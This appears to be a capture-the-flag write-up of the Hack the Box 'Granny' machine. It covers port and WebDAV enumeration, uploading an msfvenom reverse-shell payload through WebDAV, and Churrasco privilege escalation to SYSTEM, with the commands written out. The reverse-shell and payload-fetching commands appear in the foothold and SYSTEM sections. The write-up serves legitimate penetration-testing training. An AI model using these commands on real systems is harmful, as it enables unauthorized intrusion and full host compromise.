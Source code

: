 ```yaml
---
title: Hack the Box - Granny
date: 2022-08-16 21:40:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Granny](/assets/HackTheBox/Granny/Granny.png)

# Granny Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.15|Granny|Windows|

## Path to Exploitation


# Granny Enumeration

## Full Port Scan

```bash
nmap 10.10.10.15 -p- -oA Granny/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|80|http|

## Service Scan

```bash
nmap 10.10.10.15 -p 80 -sC -sV -oA Granny/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|80|http|IIS httpd 6.0|

# Website

![Site Landing Page](/assets/HackTheBox/Granny/site-page.png "Site Landing Page")

## Nikto Scan

```shell
$ nikto -h http://10.10.10.15
```

Results:
```cmd
---[SNIP]---
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH                                                   + OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server. 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.                                                  
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ WebDAV enabled (UNLOCK PROPFIND PROPPATCH COPY MKCOL SEARCH LOCK listed as allowed)
---[SNIP]---
```

We see the PUT method is allowed and that WebDAV is enabled. We can use davtest to check if we can upload files to the site.

## DavTest

```shell
$ davtest -u http://10.10.10.15
```

Results:
```cmd
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.php
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.cfm
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.html
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.jhtml
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.pl
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.jsp
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.txt
Executes: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.html
Executes: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.txt
```

We see that we can upload/execute html and txt files.

## Shell on Host

We can use this information to create our shell payload:

```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f aspx -o evil.html
```

We can then use Cadaver to upload the payload
```shell
$ cadaver http://10.10.10.15
```

But before executing, we need to trick the server into executing our .aspx payload. We need to move our .html file to a .aspx file on the server.

![Cadaver Tool](/assets/HackTheBox/Granny/cadaver.png "Using Cadaver")

After browsing to our payload file, we see we have caught a reverse shell as the network service account

![Intial Foothold](/assets/HackTheBox/Granny/initial-foothold.png "Initial Foothold")

# Privilege Escalation

Once on the machine we enumerate our user's privileges

```shell
C:\> whoami /priv
```

![User Privileges](/assets/HackTheBox/Granny/user-privs.png "User Privileges")

We see the seImpersonatePrivilege is enabled. We need to check the operating system version to determine which exploit we can use. 

```shell
C:\> systeminfo
```

![System Info](/assets/HackTheBox/Granny/sys-info.png "System Info")

We see the OS version is Microsoft Server 2003, we can
use the Churrsaco exploit located [here](https://github.com/Re4son/Churrasco)

## Getting SYSTEM

Setup and SMB Server on our Kali machine 
```shell
$ sudo impacket-smbserver share .
```

Upload the file using the SMB server
```shell
C:\> copy \\10.10.14.10\share\churrasco.exe
```

Test the exploit:
```shell
C:\> churrasco.exe -d "whoami"
```
![whoami as SYSTEM](/assets/HackTheBox/Granny/system-whoami.png "whoami as SYSTEM")

We see our command executed as SYSTEM

We can now use the exploit to launch a reverse shell payload

Create the payload:

```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o evil.exe
```

Upload the file to the machine:

```shell
C:\> copy \\10.10.14.10\share\exil.exe
```

Execute the payload:

```shell
C:\> churrasco.exe -d "C:\temp\evil.exe"
```

![Exploit](/assets/HackTheBox/Granny/exploit.png "Launch the Exploit")

Checking our listener we see we have a shell running as SYSTEM

![Getting SYSTEM](/assets/HackTheBox/Granny/priv-esc.png "Getting SYSTEM")